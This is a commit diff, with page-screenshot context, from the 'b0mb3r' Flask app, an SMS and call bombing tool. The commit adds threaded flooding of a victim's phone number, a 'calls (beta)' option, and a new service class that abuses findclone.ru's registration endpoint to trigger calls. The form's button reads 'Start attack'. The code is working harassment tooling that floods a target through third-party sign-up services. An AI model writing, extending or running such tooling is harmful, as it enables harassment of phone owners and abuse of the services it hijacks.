

Before and after one commit to Denishnc/b0mb3r, a Flask app: page / in a window 1280 px wide. Shown: the top 685 px of the page, without its empty margins (319-959 px from the left). Run offline with Flask 2, Linux system fonts and the light colour scheme; some libraries are stand-ins or nearby versions.

Commit message:
Speedup and calls introduction

```diff
--- a/main.py
+++ b/main.py
@@ -3,9 +3,10 @@ import logging
 import os
 import socket
 import sys
+import threading
 import webbrowser
 
-from flask import Flask, request, render_template
+from flask import Flask, request, render_template, abort
 
 country_codes = {'ru': '7', 'ua': '380', 'kz': '7', 'by': '375'}
 
@@ -37,6 +38,14 @@ def get_ip():
     return ip
 
 
+def run_service(service_class, module_, phone, country_code, phone_code, type_):
+    if type_ == 'call':
+        getattr(module_, service_class)(phone, [country_code, phone_code]).send_call()
+    else:
+        getattr(module_, service_class)(phone, [country_code, phone_code]).send_sms()
+    sys.exit()
+
+
 @app.route('/', methods=['GET'])
 def index():
     return render_template('index.html', sms=len(service_classes))
@@ -44,14 +53,27 @@ def index():
 
 @app.route('/sms', methods=['POST'])
 def start():
-    phone = request.form['phone']
-    count = request.form['count']
-    country_code = request.form['country']
-    phone_code = country_codes[country_code]
-    for _ in range(int(count)):
-        for module_, service_class in service_classes.items():
-            getattr(module_, service_class)(phone, [country_code, phone_code]).send_sms()
-    return '(ﾉ◕ヮ◕)ﾉ*:・ﾟ✧'
+    try:
+        phone = request.form['phone']
+        count = request.form['count']
+        country_code = request.form['country']
+        phone_code = country_codes[country_code]
+        send_calls = request.form['call']
+        send_calls_bool = True if send_calls == 'true' else False
+
+        for _ in range(int(count)):
+            for module_, service_class in service_classes.items():
+                try:
+                    _ = getattr(module_, service_class).send_call
+                    if send_calls_bool:
+                        threading.Thread(target=run_service,
+                                         args=(service_class, module_, phone, country_code, phone_code, 'call')).start()
+                except AttributeError:
+                    threading.Thread(target=run_service,
+                                     args=(service_class, module_, phone, country_code, phone_code, 'sms')).start()
+        return '(ﾉ◕ヮ◕)ﾉ*:・ﾟ✧'
+    except (ValueError, KeyError):
+        abort(400)
 
 
 if not bool(os.environ.get('PORT')):
--- /dev/null
+++ b/services/findclone.py
@@ -0,0 +1,6 @@
+from service import Service
+
+
+class FindClone(Service):
+    def send_call(self):
+        self.session.get('https://findclone.ru/register', params={'phone': '+' + self.formatted_phone})
--- a/services/service.py
+++ b/services/service.py
@@ -54,6 +54,3 @@ class Service:
     @staticmethod
     def generate_random_user_agent():
         return Service.user_agent.random
-
-    def send_sms(self):
-        raise NotImplementedError
--- a/static/index.css
+++ b/static/index.css
@@ -6,7 +6,20 @@ html, body {
     align-items: center;
 }
 
-#logo {
+input[type="number"]::-webkit-outer-spin-button, input[type="number"]::-webkit-inner-spin-button {
+    -webkit-appearance: none;
+    margin: 0;
+}
+
+input[type="number"] {
+    -moz-appearance: textfield;
+}
+
+.form-check {
+    width: 100%;
+}
+
+.no-select {
     -webkit-touch-callout: none;
     -webkit-user-select: none;
     -moz-user-select: none;
@@ -39,6 +52,11 @@ html, body {
     display: none;
     position: absolute;
     z-index: 15;
+    cursor: wait;
+}
+
+.form-check {
+    margin-bottom: 2%;
 }
 
 .footer {
--- a/templates/index.html
+++ b/templates/index.html
@@ -15,14 +15,15 @@
 </div>
 
 <div id="main">
-    <h1 id="logo">b0mb3r 💣</h1>
-    <p class="lead" id="sms">Доступно SMS-сервисов: <span class="badge badge-pill badge-primary">{{sms}}</span></p>
+    <h1 class="no-select">b0mb3r 💣</h1>
+    <p class="lead" id="sms">Доступно SMS-сервисов: <span
+            class="badge badge-pill badge-primary no-select">{{sms}}</span></p>
     <form action="/sms" id="phone-form" method="post">
         <div class="form-row">
             <div class="col">
                 <label for="phone"></label>
                 <input aria-describedby="phonesHelp" class="form-control" id="phone" name="phone"
-                       placeholder="Номер телефона" required type="text">
+                       pattern="\d*" placeholder="Номер" required type="number">
             </div>
 
             <div class="col">
@@ -31,6 +32,13 @@
                        required type="number" value="1">
             </div>
         </div>
+
+        <div class="form-group form-check">
+            <input class="form-check-input" id="call" name="call" type="checkbox" value="true">
+            <input name="call" type="hidden" value="false"/>
+            <label class="form-check-label" for="call">Звонки (beta)</label>
+        </div>
+
         <small class="form-text text-muted" id="phonesHelp"></small>
         <button class="btn btn-primary btn-lg" type="submit">Начать атаку</button>
     </form>
@@ -59,9 +67,11 @@
 
     $('#phone-form').submit(function (e) {
         e.preventDefault();
-        $('#main').css({'animation': 'blur', 'animation-duration': '0.8s', 'animation-fill-mode': 'both'});
-        $('#footer').css({'animation': 'blur', 'animation-duration': '0.8s', 'animation-fill-mode': 'both'});
-        $('#block-ui').css('display', 'block');
+        $('#main').css({'animation': 'blur', 'animation-duration': '0.6s', 'animation-fill-mode': 'both'});
+        $('#footer').css({'animation': 'blur', 'animation-duration': '0.6s', 'animation-fill-mode': 'both'});
+        setTimeout(function () {
+            $('#block-ui').css('display', 'block');
+        }, 600);
 
         let data = $('#phone-form').serializeArray();
         data.push({name: "country", value: intltelinput.getSelectedCountryData().iso2});
@@ -70,19 +80,22 @@
             type: 'post',
             data: data,
             success: function () {
+                setTimeout(function () {
+                    $('#block-ui').css('display', 'none');
+                }, 600);
+
                 $('#main').css({
                     'animation': 'blur',
-                    'animation-duration': '0.8s',
+                    'animation-duration': '0.6s',
                     'animation-fill-mode': 'both',
                     'animation-direction': 'reverse'
                 });
                 $('#footer').css({
                     'animation': 'blur',
-                    'animation-duration': '0.8s',
+                    'animation-duration': '0.6s',
                     'animation-fill-mode': 'both',
                     'animation-direction': 'reverse'
                 });
-                $('#block-ui').css('display', 'none');
             }
         });
     });
```
